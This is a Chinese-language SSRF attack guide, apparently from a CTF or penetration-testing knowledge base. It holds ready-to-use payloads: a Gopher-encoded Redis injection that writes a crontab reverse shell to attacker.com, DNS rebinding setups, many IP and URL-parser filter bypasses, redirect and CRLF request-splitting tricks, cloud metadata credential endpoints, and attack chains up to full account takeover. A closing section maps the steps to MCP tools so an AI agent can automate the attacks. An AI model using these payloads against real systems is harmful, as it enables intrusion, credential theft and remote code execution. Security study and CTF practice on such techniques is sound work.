

# SSRF (Server-Side Request Forgery)

服务器端请求伪造（SSRF）通常被用作击穿内外网隔离的突破口。本指南聚焦于**如何通过 Gopher 协议接管内网组件**，以及**DNS 重绑定、多解析器差异等 Bypass 高级绕过技术**。

---

## 1. Gopher 协议与内网服务接管

Gopher 协议（`gopher://`）允许向指定的 IP 和端口发送任意的 TCP 原始数据流。它是 SSRF 从“读取网页”升级为“执行命令”的终极武器。

### A. 攻击内网 Redis
Redis 采用 RESP (REdis Serialization Protocol) 纯文本协议交互。若内网 Redis 未配置密码，我们可以构造 RESP 流并通过 Gopher 注入写计划任务或 SSH Key。

*   **Redis 命令序列**：
    ```text
    flushall
    set cmd "\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/attacker.com/4444 0>&1\n\n"
    config set dir /var/spool/cron/
    config set dbfilename root
    save
    quit
    ```
*   **转化为 Gopher 格式**：
    需要将换行符替换为 `\r\n`（即 `%0d%0a`），并在整个流前面加上一个虚拟的填充字符（Gopher 协议发包时会吃掉第一个字符）：
    ```text
    gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$3%0d%0acmd%0d%0a$69%0d%0a%0a%0a*/1%20*%20*%20*%20*%20/bin/bash%20-i%20%3E%26%20/dev/tcp/attacker.com/4444%200%3E%261%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a
    ```
    *注意*：在发送 HTTP 请求触发 SSRF 时，以上 Gopher Payload 必须进行 **URL 双重编码**，以防中间的 HTTP 解析器对 `%0d%0a` 进行解码。

---

## 2. DNS Rebinding (DNS 重绑定) 实战

许多后端采用“先检查，后请求”的模式防范 SSRF，如：
```python
# 脆弱性逻辑伪代码
ip = dns_resolve(url.host)
if is_internal_ip(ip):
    return "Error: Internal IP blocked"
response = requests.get(url)  # 此时会发起第二次 DNS 解析！
```

### A. 攻击时序图


### B. DNS 部署配置
利用开源 DNS 服务（如 `singularity` 或 `whonow`）进行测试：
*   域名结构：`a.<ip>.<ttl>.b.<ip>.<ttl>.<random>.rebind.network`
*   示例：`a.8.8.8.8.1.b.127.0.0.1.1.random.rebind.network` (第一次返回公网，第二次返回回环，TTL均为1秒)。

---

## 3. 高级 Bypass 绕过策略

### A. IP 进制与表示法替换
许多过滤器使用正则匹配 `127.0.0.1` 或 `192.168.`，可通过以下等价 IP 表达绕过：
*   **十进制 IP**：`2130706433`（等于 `127.0.0.1`）
*   **十六进制 IP**：`0x7f000001`
*   **八进制 IP**：`017700000001`
*   **省略 0 简写**：`127.1` 或 `10.1`
*   **本地回环 IPv6 变形**：`[::1]` 或 `[0:0:0:0:0:0:0:1]`

### B. URL 解析器不一致性 (Parser Differential)
在某些语言（如 Java, Node, Python）中，校验 URL 的库和实际发送请求的库在切分 Hostname、Credentials 和 Port 时逻辑存在偏差。

*   **UserInfo 绕过**：
    `http://allowed-domain.com@127.0.0.1:80`
    *有些校验器认为主机是 `allowed-domain.com`，但底层 curl 或 Socket 实际请求的 Host 是 `127.0.0.1`。*
*   **混淆字符与斜杠斜线**：
    `http://allowed-domain.com#@127.0.0.1/` 或 `http://allowed-domain.com\@127.0.0.1/`
    根据 RFC 规范的不同，有些解析器视 `#` 或 `\` 后面的部分为 Path 或 Fragment，有些则视其为 Userinfo 标志，从而导致对实际目标的误判。

### C. 302 重定向配合
如果后端对输入的 URL 主机进行了极其严格的域名与 IP 审查，但**开启了 Follow Redirects（跟随重定向）**：
*   输入：`http://attacker.com/302.php`
*   后端校验 `attacker.com` 的 IP，发现为合法的公网 IP，放行。
*   请求发包时，`attacker.com/302.php` 返回：
    ```http
    HTTP/1.1 302 Found
    Location: gopher://127.0.0.1:6379/_...
    ```
*   后端底层 HTTP 客户端跟随跳转，对 `gopher://127.0.0.1` 发包，成功绕过前端 IP 静态过滤。

### D. DNS Pin 绕过 (不同解析器差异)
```python
# 同时指定 A 记录到公网 + 内网 IP
# 第一次解析拿到公网，通过检查；第二次解析拿到内网
# 恶意 DNS 配置 (用 singularity/rebind):
#   evil.com → TTL=0, 轮流返回 8.8.8.8 和 127.0.0.1
```

### E. CRLF 头注入 → SSRF
```http
GET /api/fetch?url=http://127.0.0.1:8080%0d%0aHost:%20evil.com HTTP/1.1
```
如果后端不做 CRLF 净化就把 url 参数值拼到 HTTP 请求中 → 可注入额外 Header / 拆分请求。

---

## 4. 云 Metadata 端点

```python
# 各云厂商 metadata API
CLOUD_ENDPOINTS = {
    "AWS":           "http://169.254.169.254/latest/meta-data/",
    "AWS IMDSv1":    "http://169.254.169.254/latest/meta-data/iam/security-credentials/",
    "AWS IMDSv2":    "http://169.254.169.254/latest/api/token",  # 需 PUT + header
    "GCP":           "http://metadata.google.internal/computeMetadata/v1/",
    "Azure":         "http://169.254.169.254/metadata/instance?api-version=2021-02-01",
    "DigitalOcean":  "http://169.254.169.254/metadata/v1.json",
    "Oracle Cloud":  "http://169.254.169.254/opc/v1/instance/",
    "Alibaba Cloud": "http://100.100.100.200/latest/meta-data/",
    "Tencent Cloud": "http://metadata.tencentyun.com/latest/meta-data/",
}

# AWS IMDSv2 (需要 PUT token)
# curl -X PUT http://169.254.169.254/latest/api/token \
#   -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"
# curl http://169.254.169.254/latest/meta-data/ \
#   -H "X-aws-ec2-metadata-token: <token>"
```

---

## 5. 更多内网服务利用

```python
# Gopher → 各种协议

# MySQL (未授权)
# gopher://127.0.0.1:3306/_%00%00%00%00...  (握手包)

# Memcached
# gopher://127.0.0.1:11211/_stats%0d%0a

# PHP-FPM (FastCGI → 通过 Gopher 发 FastCGI 包)
# gopher://127.0.0.1:9000/_[FastCGI binary proto]

# SMTP (伪造邮件)
# gopher://127.0.0.1:25/_HELO attacker%0d%0aMAIL FROM:...

# Docker API
# http://127.0.0.1:2375/containers/json
# http://127.0.0.1:2375/exec  → 创建容器并执行命令

# Elasticsearch
# http://127.0.0.1:9200/_cat/indices
# http://127.0.0.1:9200/_search?q=flag

# etcd
# http://127.0.0.1:2379/v2/keys
```

---

## 6. 协议与 Schema 全表

```
http://    → HTTP GET/POST
https://   → HTTPS
file://    → 本地文件读取 (Java/php://)
gopher://  → 任意 TCP 数据流
dict://    → DICT 协议 (dict://127.0.0.1:6379/info)
ftp://     → FTP 协议 (可带凭证)
sftp://    → SFTP
tftp://    → TFTP
ldap://    → LDAP 查询
netdoc://  → Java 文件读取 (netdoc:///etc/passwd)
jar://     → Java JAR 读取
php://     → PHP stream
expect://  → RCE (PHP expect 模块)
ogg://     → Oracle 外部表
```

---

## 7. 攻击链

```
SSRF → Cloud Metadata → IAM credential → AWS CLI → 全账户接管
SSRF → Gopher Redis → crontab 写反弹 shell → RCE
SSRF → Docker API → 创建 privileged 容器 → 宿主机 RCE
SSRF → Elasticsearch → 索引数据导出 → 数据泄露
SSRF → 内网 Jenkins → Script Console → RCE
SSRF → Gopher FastCGI → PHP-FPM 代码执行 → RCE
SSRF → 内部 Admin Panel → 功能滥用 → 数据操作
SSRF → DNS Rebinding → 绕过 IP 白名单 → 内网横向
302 Redirect → SSRF → 绕过 URL 白名单 → 内网请求
Open Redirect → SSRF → 两步绕过 → Metadata 访问
```

---

## 8. Advanced SSRF Bypass (2024-2025)

### IMDSv2 Bypass via Proxy Chain

```
# IMDSv2 需要 X-aws-ec2-metadata-token header
# 但某些内网服务可能设置了任意 header → 可以利用

# Chain: SSRF → internal Atlassian proxy (可设自定义 header)
#       → proxy 设置 X-aws-ec2-metadata-token → IMDSv2 token endpoint
#       → 拿到 token → IMDSv2 metadata → IAM credential
```

### IPv6 Embedding Patterns

```python
# 7 种 IPv6 表示法绕过 IP 过滤器
IPV6_BYPASS = [
    "http://[::1]/",                # 标准 IPv6 localhost
    "http://[0:0:0:0:0:0:0:1]/",   # 完整 IPv6
    "http://[::ffff:127.0.0.1]/",   # IPv4-mapped IPv6
    "http://[::127.0.0.1]/",        # 兼容格式
    "http://[::0:1]/",              # 缩写
    "http://[::0:127.0.0.1]/",      # 混合
    "http://0x7f000001/",           # 十六进制: 127.0.0.1
]
```

### 0.0.0.0/8 Bypass

```python
# 0.0.0.0/8 在某些系统也解析到 localhost
# WAF 通常只过滤 127.0.0.0/8 → 0.0.0.0 可能被忽略
"http://0.0.0.0:8080/admin"
"http://0/exec?cmd=id"  # 在某些 Unix 上，0 = 0.0.0.0
```

### Wildcard DNS

```bash
# nip.io / sslip.io → DNS 解析到任意 IP
# http://127.0.0.1.nip.io   → 解析为 127.0.0.1
# http://192.168.1.1.nip.io → 解析为 192.168.1.1
# 如果 WAF 只检查域名白名单，不解析 DNS → bypass

curl http://metadata.169.254.169.254.nip.io/latest/meta-data/
```

### CRLF in URL Path → Request Splitting

```
# SSRF → request splitting via CRLF in path
# http://127.0.0.1:80/%0d%0aGET%20/admin%20HTTP/1.1%0d%0aHost:127.0.0.1%0d%0a%0d%0a
# → 第一个请求: GET / HTTP/1.1
# → 第二个请求: GET /admin HTTP/1.1
```
```

## MCP 工具映射

AI Agent 可调用以下 MCP 工具自动完成或加速上述攻击步骤：

| 攻击步骤 | MCP 工具 | 说明 |
|---------|---------|------|
| SSRF 端点探测 | `http_probe` | HTTP GET 探测 SSRF 入口点 |
| 知识检索 | `kb_router` | 按 SSRF 攻击信号搜索知识库 |
| 知识库文件读取 | `kb_read_file` | 读取知识库技术文件内容 |

## 证据与验证闭环

- 保存 baseline 与单变量 probe 的完整请求、响应状态、关键响应头和正文摘要。
- 将“响应差异”与服务端副作用分开记录；只有权限、状态、数据或 Flag 可重复变化才算确认。
- 从全新 session/重置状态最小化重放，记录依赖、并发参数、时间窗口及失败样本。
- 输出统一放入 `exports/ctf-website/<case>/`，凭据只用 `REDACTED` 占位，自动检索 `flag{}`、`CTF{}`、`DASCTF{}`。
